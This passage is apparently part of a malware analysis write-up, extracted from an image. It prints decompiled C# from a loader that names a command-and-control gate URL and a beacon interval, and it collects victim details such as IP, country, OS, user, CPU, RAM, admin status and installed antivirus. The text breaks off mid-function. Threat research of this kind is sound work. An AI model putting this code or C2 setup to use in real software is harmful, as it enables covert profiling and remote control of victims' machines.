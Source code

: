 ```csharp
```

<h6>On the global variables a different version name is also present, and persistence is not properly defined and depends on whether the attacker deems it necessary to add it, this on the stream of data that this performed.</h6>

```cs
public static string version = "Dorway";
public static string server = "http://sissj.space/8/gate.php";
public static string defaultPath = Environment.GetFolderPath(Environment.SpecialFolder.ApplicationData);
public static bool terminate = false;
public static int interval = 240;
```

<h6>In more to have the same names of variables and functions, this use the same method for collecting the system informations by WMI requests.</h6>

```cs
public static string GetInitInfo()
{
 string text = string.Empty;
 text = text + "{\"UUID\":\"" + Loader.GetUUID() + "\",";
 text = text + "\"IP\":\"" + new WebClient().DownloadString("http://ipinfo.io/ip").Trim() + "\",";
 text = text + "\"Country\":\"" + new WebClient().DownloadString("http://ipinfo.io/country").Trim() + "\",";
 using (ManagementObjectCollection.ManagementObjectEnumerator enumerator = new ManagementObjectSearcher("SELECT Caption FROM Win32_OperatingSystem").Get().GetEnumerator())
 {
  if (enumerator.MoveNext())
  {
   ManagementObject managementObject = (ManagementObject)enumerator.Current;
   text = text + "\"OS\":\"" + ((managementObject["Caption"] != null) ? managementObject["Caption"].ToString().Replace("Microsoft ", "") : "N/A") + "\",";
  }
 }
 using (ManagementObjectCollection.ManagementObjectEnumerator enumerator = new ManagementObjectSearcher("select * from Win32_Processor").Get().GetEnumerator())
 {
  if (enumerator.MoveNext())
  {
   ManagementObject managementObject2 = (ManagementObject)enumerator.Current;
   text = text + "\"Arch\":\"x" + Convert.ToInt32(managementObject2["AddressWidth"]).ToString() + "\",";
  }
 }
 text = text + "\"User\":\"" + WindowsIdentity.GetCurrent().Name.Replace("\\", "/").ToString() + "\",";
 text = text + "\"CPU\":\"" + Registry.GetValue("HKEY_LOCAL_MACHINE\\HARDWARE\\DESCRIPTION\\SYSTEM\\CENTRALPROCESSOR\\0", "ProcessorNameString", null).ToString() + "\",";
 ulong totalPhysicalMemory = new ComputerInfo().TotalPhysicalMemory;
 text = text + "\"RAM\":\"" + (totalPhysicalMemory / 1024UL / 1024UL).ToString() + " MB\",";
 WindowsIdentity current = WindowsIdentity.GetCurrent();
 WindowsPrincipal windowsPrincipal = new WindowsPrincipal(current);
 bool flag = windowsPrincipal.IsInRole(WindowsBuiltInRole.Administrator);
 if (flag){text += "\"Role\":\"Admin\",";}
 else{text += "\"Role\":\"User\",";}
 try
 {
  string text2 = string.Empty;
  foreach (ManagementBaseObject managementBaseObject in new ManagementObjectSearcher("root\\SecurityCenter2", "SELECT * FROM AntivirusProduct").Get())
  {
   ManagementObject managementObject3 = (ManagementObject)managementBaseObject;
   text2 = managementObject3["displayName"].ToString();
```